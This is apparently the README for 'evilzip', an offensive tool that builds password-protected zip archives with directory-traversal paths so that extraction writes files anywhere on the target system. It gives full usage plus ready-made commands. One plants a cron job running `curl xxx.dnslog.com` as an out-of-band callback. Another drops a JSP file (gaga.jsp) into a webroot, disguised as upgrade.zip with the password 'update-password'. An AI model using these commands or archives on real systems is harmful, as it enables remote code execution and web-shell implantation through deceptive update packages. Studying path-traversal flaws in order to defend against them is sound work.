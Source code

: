 # evilzip

## logs

* 20210701 修改权限问题,让解压后的文件默认就有读写执行的权限。

## About
evilzip lets you create a zip file(with password) that contains files with directory traversal characters in their embedded path.  Most commercial zip program (winzip, etc) will prevent extraction of zip files whose embedded files contain paths with directory traversal characters.  However, many software development libraries do not include these same protection mechanisms (ex. Java, PHP, etc).  If a program and/or library does not prevent directory traversal characters then evilzip can be used to generate zip files that, once extracted, will place a file at an arbitrary location on the target system.

## 关于项目

原使用的创建恶意压缩包的工具[evilarc](https://github.com/ptoomey3/evilarc)不支持带密码的压缩包,且没法修改,因为其使用的zipfile模块不支持加密码压缩，所以就有了这个项目。在evilarc的基础上新增了一些自己常用的功能，比如仅需一个参数就生成可以穿越到unix系统计划任务的压缩包。

具体参数如下:

```
╭─ fucker ~/Coding/Java/Intellij/evilzip/
╰─ java -jar evilzip.jar -h
Usage: java -jar EvilZip.jar [options]
  Options:
    -f, --file
      File to input archive.
      Default: root
    -p, --path
      Path to include in filename after traversal
      Default: var/spool/cron/
    -pwd, --password
      ZIP file encrypt password.
    -o, --output
      File to output archive.
      Default: evil.zip
    -d, --depth
      Number directories to traverse.
      Default: 8
    -t, --type
      OS platform for archive (win|unix).
      Default: unix
    -c, --cmd
      Command to execute.
    -h, --help
      Show this message
```

## 一些tips

快速生成在unix系统执行命令的压缩包(目录穿越到计划任务):

```
java -jar evilzip.jar -c "curl xxx.dnslog.com"
```

读取本地的gaga.jsp 让其穿越10层目录最终解压到/wwwroot/xxxx/gaga.jsp 解压密码为update-password 输出的压缩包名为upgrade.zip

```
java -jar evilzip.jar -f gaga.jsp -d 10 -p wwwroot/xxxx/ -o upgrade.zip -t unix -pwd "update-password"
```

大部分参数均带有默认值，不用指定也行。

